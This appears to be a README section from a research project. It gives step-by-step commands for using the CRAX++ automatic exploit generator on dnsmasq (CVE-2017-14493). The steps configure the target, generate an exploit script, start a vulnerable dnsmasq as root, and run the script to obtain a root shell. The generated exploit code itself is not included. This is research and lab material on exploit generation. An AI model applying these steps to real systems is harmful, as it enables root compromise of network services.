

## Exploitation

1. In ~/s2e/projects/sym_socket, set target.

   ```sh
   cd ~/s2e/projects/sym_socket
   ./set-target.sh CVE-2017-14493-dnsmasq-aslr-nx
   ```

2. Edit bootstrap.sh and s2e-config.template.lua in ~/s2e/projects/sym_socket

   > See bootstrap.sh and s2e-config.template.lua in this directory.

3. Launch CRAX++, and after ~150 secs a file named `exploit_0.py` will be generated.

   ```sh
   ./launch-crax.sh
   ```

4. Start dnsmasq as root (server)

   ```sh
   sudo LD_PRELOAD="/home/aesophor/s2e/projects/sym_socket/libc-2.24.so /home/aesophor/libnss_files.so.2" /home/aesophor/s2e/projects/sym_socket/ld-2.24.so    ./target --no-daemon --dhcp-range=fd00::2,fd00::ff -p 5300
   ```

5. Run the exploit script (client) and enjoy the root shell.

   ```sh
   ./exploit_0.py
   ```

   
